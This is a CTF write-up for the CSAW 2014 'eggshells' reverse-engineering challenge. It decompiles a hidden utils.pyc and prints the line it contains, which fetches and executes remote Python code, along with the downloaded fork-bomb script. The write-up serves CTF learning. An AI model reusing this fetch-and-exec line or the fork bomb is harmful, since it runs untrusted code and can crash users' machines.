 # CSAW CTF 2014: eggshells

**Category:** Reverse Engineering
**Points:** 100
**Description:**

> I trust people on the internet all the time, do you?
>
> Written by ColdHeat
>
> [eggshells-master.zip](eggshells-master.zip)

## Write-up

Let’s unzip [the provided zip file](eggshells-master.zip):

```bash
$ unzip eggshells-master.zip
```

This creates a directory `eggshells-master` that contains a bunch of Python files. One compiled Python file, `utils.pyc`, stands out. Let’s decompile it using [`uncompyle2`](https://github.com/wibiti/uncompyle2):

```bash
$ uncompyle2 utils.pyc
# 2014.09.22 10:53:48 CEST
#Embedded file name: /Users/kchung/Desktop/CSAW Quals 2014/rev100/utils.py
exec __import__('urllib2').urlopen('http://kchung.co/lol.py').read()
+++ okay decompyling utils.pyc
# decompiled 1 files: 1 okay, 0 failed, 0 verify failed
# 2014.09.22 10:53:48 CEST
```

That URL looks interesting.

```bash
$ curl 'http://kchung.co/lol.py'
import os
while True:
    try:
        os.fork()
    except:
        os.system('start')
# flag{trust_is_risky}
```

The flag is `trust_is_risky`.

## Other write-ups

* <http://www.mrt-prodz.com/blog/view/2014/09/csaw-ctf-quals-2014---eggshells-100pts-writeup>
